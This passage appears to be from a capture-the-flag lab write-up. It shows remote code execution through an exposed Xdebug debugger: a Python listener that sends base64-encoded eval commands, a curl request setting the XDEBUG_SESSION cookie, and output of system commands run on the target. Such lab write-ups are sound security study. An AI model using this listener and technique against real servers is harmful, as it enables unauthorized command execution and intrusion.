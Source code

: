 But for a more direct path to RCE / shell, we can take the manual route. If you add a cookie `XDEBUG_SESSION=...`, the site will call back to you on default port 9000, and you can pass php commands to it.

[This blog](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface) describes how to do the attack, albeit in Chinese. There’s a short script he uses to interact, which simply listens on port 9000, receives the connection, and then enters an infinite loop of reading input commands from the command line, and sends them back formatted for xdebug:

```

#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0',9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))

```

To test it out, I’ll give Olympus a ping command, and use tcpdump to see if it works.

With script running, use curl to trigger Xdebug:

```

root@kali# curl http://10.10.10.83 -H "Cookie: XDEBUG_SESSION=wpOCvcWXx5"

```

Script gets callback. We can issue ping command:

```

root@kali# ./exploit_xdebug.py
494<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.1.12" protocol_version="1.0" appid="5380" idekey="XDEBUG_ECLIPSE"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick
Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
>> system("ping -c 1 10.10.14.5")
336<?xml version="1.0" encoding="iso-8859-1"?>
<response xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" command="eval" transaction_id="1"><property type="string" size="61" encoding="base64"><![CDATA[cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA5NC4zNjEvOTUuMDcyLzk1Ljg2MS8wLjU2MiBtcw==]]></property></response>
>>

```
